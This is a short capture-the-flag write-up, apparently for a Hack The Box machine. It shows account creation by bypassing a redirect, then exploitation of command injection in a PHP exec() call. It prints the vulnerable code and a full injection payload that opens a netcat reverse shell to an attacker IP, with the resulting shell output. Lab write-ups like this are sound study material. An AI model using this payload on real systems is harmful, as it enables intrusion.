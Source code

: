 Doing a directory fuzz reveals the page 'accounts.php' exists, but it redirects to 'login.php'
Capture the request in burpsuite and see that accounts.php is a page that is viewable before the redirect
![[Pasted image 20210825123057.png]]
Post to this page with paramaters 'username=&passoword=&confirm=' to create an account, then login with account
![[Pasted image 20210825123201.png]]
Go to files.php and download the only file, which is a site backup
Looking at 'logs.php' find a vulnerable python exec
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```
This can be exploited by posting the delim paramter with a payload that looks something like
```bash
delim=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.102 9001 >/tmp/f
```
```bash
-> % nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.104] 50260
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```